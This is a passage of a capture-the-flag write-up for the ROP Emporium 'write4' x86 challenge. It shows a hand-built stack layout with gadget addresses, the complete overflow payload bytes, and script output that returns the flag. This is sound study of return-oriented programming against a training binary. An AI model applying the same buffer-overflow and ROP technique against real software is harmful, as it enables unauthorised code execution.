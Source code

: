 	edi 
	 = &data + 0x4
	 = 0x0804a01c				 4B
	 = "\x1c\xa0\x04\x08"
	_______________________________________
	ebp 
	 = ".txt"				 4B
	 = "txt."
	_______________________________________
	eip = &usefulGadget
	 = 0x08048543 				 4B
	 = "\x43\x85\x04\x08"
	_______________________________________
	eip  
	 = &print_file
	 = 0x080483d0				 4B
	 =  "\xd0\x83\x04\x08"
	_______________________________________
	fake eip
	 = "dddd"				 4B
	_______________________________________
	args
	 = &data
	 = 0x0804a018				 4B
	 = "\x18\xa0\x04\x08"
	_______________________________________
	

# FTW

O hek yea

	$ ./write432  < input 
	write4 by ROP Emporium
	x86
	
	Go ahead and give me the input already!
	
	> Thank you!
	ROPE{i ate the bug}
	
	Segmentation fault (core dumped)
	

Now that I have endured a bit of masochism by manually creating my input file, I can whip up a python script that should work as well:

(it does):

	$ python3 write432.py
	[*] '/home/ubuntu/ropemporium/write4/write432'
	    Arch:     i386-32-little
	    RELRO:    Partial RELRO
	    Stack:    No canary found
	    NX:       NX enabled
	    PIE:      No PIE (0x8048000)
	    RUNPATH:  b'.'
	[+] Starting local process '/home/ubuntu/ropemporium/write4/write432': pid 22583
	b'write4 by ROP Emporium\nx86\n\nGo ahead and give me the input already!\n\n>'
	[*] Loaded 10 cached gadgets for './write432'
	rop gadget 1 is at:  b'\xaa\x85\x04\x08'
	payload is:  b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB\xaa\x85\x04\x08\x18\xa0\x04\x08flagC\x85\x04\x08\xaa\x85\x04\x08\x1c\xa0\x04\x08.txtC\x85\x04\x08\xd0\x83\x04\x08dddd\x18\xa0\x04\x08'
	[+] Receiving all data: Done (33B)
	[\*] Process '/home/ubuntu/ropemporium/write4/write432' stopped with exit code -11 (SIGSEGV) (pid 22583)
